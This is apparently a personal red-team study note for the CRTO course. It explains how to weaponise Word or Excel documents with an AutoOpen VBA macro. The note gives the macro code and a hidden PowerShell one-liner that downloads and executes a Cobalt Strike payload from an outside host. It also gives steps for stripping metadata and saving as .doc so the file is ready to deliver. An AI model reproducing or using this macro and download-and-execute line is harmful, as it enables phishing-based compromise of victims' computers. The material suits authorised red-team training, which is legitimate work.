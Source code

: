
Often used to enhance functionality in Word and Excel for data processing. We can pollute documents with malicious macros for code execution.

## 🖊️ Malicious Macros Setup

1) Create your document either word or excel
2) Create Macro doing:

` View > Macros > Create`
`Change the "Macros in" field from "All active templates and documents" to "Document 1"`

3) Give it a name and create it
4) To force the macro to trigger automatically when the document is opened, use the name _AutoOpen_.
5) Code snap:
```
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "notepad"

End Sub
```

This will just execute notepad as an example. 

### 📔 [[Cobalt Strike]] Payload

- To add a [[Cobalt Strike]] payload to the macro you can use:
	- Powershell payload: Attacks -> Scripted Web Delivery
	- Generate Powershell payload
	- Copy the one liner printed
	- Paste the line adding Shell.Run to the macro and adding quotation marks:
	`Shell.Run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://nickelviper.com/a'))"""

	- To prepare the document for delivery, go to _File > Info > Inspect Document > Inspect Document_, which will bring up the Document Inspector. Click _Inspect_ and then _Remove All_ next to _Document Properties and Personal Information_.  This is to prevent the username on your system being embedded in the document.
	- Save the file as .doc , not .docx or .docm

##  📗 Action to perform 

1. 


### Properties
---
📆 created   {{07-02-2024}} 10:10
🏷️ tags: #redteam #crto   
---

